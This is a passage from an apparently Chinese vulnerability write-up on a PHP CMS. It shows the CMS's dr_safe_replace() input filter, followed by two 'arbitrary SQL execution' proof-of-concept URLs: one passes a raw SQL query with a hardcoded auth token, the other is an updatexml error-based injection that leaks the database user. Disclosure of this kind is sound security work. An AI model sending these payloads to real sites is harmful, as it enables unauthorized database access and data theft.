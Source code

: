 dr_safe_replace()


```php
function dr_safe_replace($string) {
    $string = str_replace('%20', '', $string);
    $string = str_replace('%27', '', $string);
    $string = str_replace('%2527', '', $string);
    $string = str_replace('*', '', $string);
    $string = str_replace('"', '&quot;', $string);
    $string = str_replace("'", '', $string);
    $string = str_replace('"', '', $string);
    $string = str_replace(';', '', $string);
    $string = str_replace('<', '&lt;', $string);
    $string = str_replace('>', '&gt;', $string);
    $string = str_replace("{", '', $string);
    $string = str_replace('}', '', $string);
    return $string;
}
```

**3、任意sql语句执行1**


```bash
http://url/index.php?c=api&m=data2&auth=582f27d140497a9d8f048ca085b111df&param=action=sql%20sql=%27select%20version();%27
```

![](images/15890261496803.png)


**4、任意sql语句执行2**


```bash
http://blackhold.com/index.php?s=member&c=api&m=checktitle&id=1&title=1&module=news,(select%20(updatexml(1,concat(1,(select%20user()),0x7e),1)))a
```

![](images/15890261740733.png)
